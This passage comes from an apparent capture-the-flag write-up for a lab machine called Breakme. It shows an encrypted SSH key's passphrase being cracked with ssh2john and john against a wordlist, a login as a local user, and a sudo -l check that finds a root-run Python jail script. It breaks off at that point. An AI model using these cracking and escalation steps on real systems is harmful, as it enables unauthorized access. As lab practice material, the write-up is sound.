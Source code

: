 > For some reason, if you try to run the commands in `/dev/shm` or `/tmp`, it fails. So, try running them in `/home/john`.
{: .prompt-warning }

### SSH Connection

Well, now that we have an SSH key, if we try to use it to get a shell, we find that the key is encrypted with a passphrase.

```console
$ ssh -i id_rsa youcef@10.10.225.113
Enter passphrase for key 'id_rsa':
```

We can try brute-forcing the passphrase. First, we use `ssh2john` to convert it to a format that `john` can work with.

```console
$ ssh2john id_rsa > ssh_key.hash
```

Now, using `john` to crack it, we obtain the passphrase.

```console
$ john ssh_key.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Using the key with the found passphrase, we are able to obtain a shell as `youcef` and read the second flag.

```console
$ ssh -i id_rsa youcef@10.10.225.113
Enter passphrase for key 'id_rsa':
...
youcef@Breakme:~$ id
uid=1000(youcef) gid=1000(youcef) groups=1000(youcef)
youcef@Breakme:~$ wc -c .ssh/user2.txt
33 .ssh/user2.txt
```

## Shell as root

### Checking the SUDO privileges

Checking the `sudo` privileges for the user, we see that we can run `/root/jail.py` as the `root` user.

```console
youcef@Breakme:~$ sudo -l
Matching Defaults entries for youcef on breakme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User youcef may run the following commands on breakme:
    (root) NOPASSWD: /usr/bin/python3 /root/jail.py
```
